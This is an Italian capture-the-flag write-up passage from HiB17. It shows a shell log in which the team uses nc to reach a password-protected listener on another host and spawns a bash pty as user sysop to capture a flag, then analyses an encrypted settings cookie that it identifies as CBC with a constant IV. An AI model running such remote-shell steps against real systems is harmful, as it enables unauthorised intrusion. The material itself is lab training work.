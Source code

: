 ```bash
www-data@www:/var/www/CTF/support$ nc 10.0.0.165 31337
nc 10.0.0.165 31337
Insert password for JBZ TEAM: ***********
python -c "import pty;pty.spawn('/bin/bash')"
sysop@debian:/tmp/...$ id
uid=1000(sysop) gid=1000(sysop) groups=1000(sysop),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
```

Abbiamo così ottenuto la flag nascosta sul server
```
pci zone flag: 95429c6709bb99d1ed06d2a99bc6ffbc
```

---
## ECB Padding

Un commento nella pagina index.php diceva: `<!-- it's kinda bugged, read the changelog-->`.
Abbiamo visitato quindi il file changelog.txt (indicato sopra) capendo così parte del funzionamento del file `index.php`.

Facendo una richiesta tramite il form nella pagina [index.php](https://github.com/jbzteam/CTF/blob/master/HiB17_SpringEdition/index.php_crypto) e ricaricando la stessa abbiamo notato che il server oltre a printare il valore di `CC` printava l'oggetto `$settings`. Abbiamo quindi notato un cookie chiamato `pci_crypt`.

Decodificando questo cookie (urldecode -> base64decode -> hex) abbiamo ottenuto una stringa esadecimale cifrata.
Probabilmente l'oggetto `$settings` serializzato e cifrato in ECB.

Per facilitare l'invio delle richieste e leggere i cookie abbiamo scritto [questo script Python](https://github.com/PequalsNP-team/pequalsnp-team.github.io/blob/master/assets/hib17_crypto.py).

Abbiamo notato che inviando varie richieste, nei ciphertext i primi 128 bit (il primo blocco) era costante.
Un comportamento condiviso sia da ECB che da CBC con IV costante.

Inizialmente pensavamo ad un algoritmo 128bit in ECB (come suggeriva il testo della flag, nds), sfortunatamente dopo le due prove sottostanti abbiamo capito che ogni blocco aveva un legame con il precedente. Si trattava di CBC. 
Inoltre il numero di blocchi di plaintext differiva da quello dei blocchi di ciphertext, qualcosa veniva appeso al ciphertext diversamente al funzionamento di un normale padding.

In questa immagine possiamo vedere come i blocchi 1 e 2 dei plaintext destra e sinistra combaciano e quindi i relativi blocchi 1 e 2 del ciphertext sono identici
![Crypto1](https://raw.githubusercontent.com/PequalsNP-team/pequalsnp-team.github.io/master/assets/hib17_crypto1.png)

In questa immagine invece il blocco 1 e 3 del plaintext a sinistra e il blocco 1 e 4 di quello di destra combaciano, ma solo il blocco 1 del ciphertext e' identico
![Crypto2](https://raw.githubusercontent.com/PequalsNP-team/pequalsnp-team.github.io/master/assets/hib17_crypto2.png)

Per questo motivo abbiamo sospeso questa challenge aspettando di risolvere `PCI Zone Flag` che ci avrebbe dato RCE sulla stessa macchina cosi da poter osservare i sorgenti.

